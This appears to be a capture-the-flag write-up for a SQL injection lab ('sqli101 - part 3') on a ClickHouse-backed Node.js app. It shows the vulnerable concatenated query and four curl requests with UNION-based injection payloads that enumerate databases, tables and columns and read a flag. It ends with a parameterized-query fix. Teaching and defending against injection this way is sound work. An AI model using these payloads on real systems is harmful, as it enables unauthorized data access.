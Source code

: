 # sqli101 - part 3

## Vulnerability
Unescaped user inputs used in the following SQL query.
```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%" + search + "%'")
```

## Exploitation
We can list the databases using:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT distinct database FROM system.tables WHERE '\''%'\''='\''"
}'
```

We can find the table flag using:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT name FROM system.tables WHERE database='\''default'\'' AND '\''%'\''='\''"
}'
```

We can find the column flag in the table flag using:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT name FROM system.columns WHERE database='\''default'\'' AND table='\''flag'\'' AND '\''%'\''='\''"
}'
```

And finally read the flag by querying the table and column found:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT flag FROM default.flag WHERE '\''%'\''='\''"
}'
```

## Fix
User inputs should be validated (can use a regex to restrict to a subset of ascii characters).
User inputs can also be escaped.

It is also possible to use query parameterized queries. (cf [ClickHouse documentation](https://clickhouse.com/docs/en/interfaces/cli#cli-queries-with-parameters)).
Implementing that solution changes two files, `routes/index.js` and `database.js`

```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%{search:String}%'", {'search': search})

async testQuery(query, parameters) {
    return this.clickhouse.query(query, {'params': parameters}).toPromise();
}
```
